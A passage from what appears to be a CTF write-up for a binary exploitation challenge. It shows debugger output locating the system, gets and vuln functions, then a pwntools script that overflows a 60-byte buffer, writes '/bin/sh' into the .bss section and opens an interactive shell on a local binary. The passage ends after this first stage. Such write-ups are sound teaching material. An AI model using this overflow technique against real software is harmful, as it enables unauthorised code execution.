```bash
gef➤  p system
$2 = {<text variable, no debug info>} 0x8048420 <system@plt>
gef➤  p gets
$3 = {<text variable, no debug info>} 0x8048400 <gets@plt>
gef➤  p vuln
$4 = {<text variable, no debug info>} 0x80485b1 <vuln>
```

We can now overflow the buffer and call the gets function to write to the `_bss_start` address and then return to the vuln function.

```python
from pwn import *

# Function addresses
gets = p32(0x8048400)
vuln = p32(0x080485b1)
system = p32(0x08048420)

p = process("./server")
# Stage 1
padding = b"\x41" * 60
p.recv()
bss = p32(0x0804a080)
p.sendline(padding + gets + vuln + bss)
# send /bin/sh
p.sendline(b"/bin/sh")
p.interactive()
```

![stage1](/assets/img/ctflearn/shell-time-stage1.png)
